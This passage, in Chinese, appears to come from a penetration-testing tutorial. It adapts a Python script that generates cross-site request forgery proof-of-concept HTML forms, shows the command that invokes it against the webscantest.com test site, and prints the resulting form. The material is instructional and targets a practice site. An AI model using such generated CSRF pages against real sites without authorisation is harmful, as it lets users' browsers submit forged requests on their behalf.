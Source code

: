 这是成功提交后的样子。对我们来说，关键是我们可以通过成功消息看到表单提交了什么值。

让我们将这些信息输入到我们的 `csrf_poc_generator.py` 脚本中，对我们声明重要变量的地方做一些小修改，以便我们可以将它们作为命令行参数传递。做完这些修改后，这是脚本顶部部分的新版本——请注意新的 `sys` 和 `ast` 包，以及我们如何使用 `ast` 来解析 Python 列表的文本表示，转换成实际的数据结构：

```
#!/usr/bin/env python3
import sys
import ast

from bs4 import BeautifulSoup, Tag

def generate_poc():
    method=sys.argv[1]
    encoding_type=sys.argv[2]
    action=sys.argv[3]
    fields = ast.literal_eval(sys.argv[4])
```

其余部分的脚本完全一样。现在我们可以从命令行传递关键的信息。目前，传递字段信息有点笨拙，但未来我们可以让它从生成的 JSON 文件或其他数据源（如网络爬虫）中读取。这是我们目前的一行代码：

```
python code/csrf_poc_generator.py "POST" "application/x-www-form-urlencoded" "http://webscantest.com/csrf/csrfpost.php" "[{ 'type':'text', 'name':'property', 'label':'color', 'value':''}]"
```

这是它输出的 PoC 的样子：

```
<html>
 <form action="http://webscantest.com/csrf/csrfpost.php" enctype="application/x-www-form-urlencoded" method="POST">
  <label>
   color
  </label>
  <input name="property" type="text" value=""/>
  <input type="submit" value="http://webscantest.com/csrf/csrfpost.php"/>
 </form>
</html>
```

这是我们在 Chrome 中打开时的样子：

![](img/f54a1333-3434-4c1c-9688-155dce4da3e5.png)
